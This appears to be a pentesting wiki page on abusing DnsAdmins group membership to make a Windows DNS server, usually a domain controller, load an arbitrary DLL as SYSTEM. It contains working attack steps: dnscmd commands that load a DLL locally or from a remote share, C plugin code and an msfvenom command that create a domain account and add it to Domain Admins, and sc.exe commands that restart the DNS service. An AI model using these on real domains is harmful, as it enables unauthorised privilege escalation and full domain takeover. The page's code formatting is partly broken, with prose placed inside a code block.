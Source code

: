 For a practical demonstration, see [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s).

## DnsAdmins

Members of the **DnsAdmins** group can exploit their privileges to load an arbitrary DLL with SYSTEM privileges on a DNS server, often hosted on Domain Controllers. This capability allows for significant exploitation potential.

To list members of the DnsAdmins group, use:

```bash
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL (CVE‑2021‑40469)

> [!NOTE]
> This vulnerability allows for the execution of arbitrary code with SYSTEM privileges in the DNS service (usually inside the DCs). This issue was fixed in 2021.

Members can make the DNS server load an arbitrary DLL (either locally or from a remote share) using commands such as:

```bash
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
An attacker could modify the DLL to add a user to the Domain Admins group or execute other commands with SYSTEM privileges. Example DLL modification and msfvenom usage:

# If dnscmd is not installed run from aprivileged PowerShell session:
Install-WindowsFeature -Name RSAT-DNS-Server -IncludeManagementTools
```

```c
// Modify DLL to add user
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
    system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
    system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

```bash
// Generate DLL with msfvenom
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```

Restarting the DNS service (which may require additional permissions) is necessary for the DLL to be loaded:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
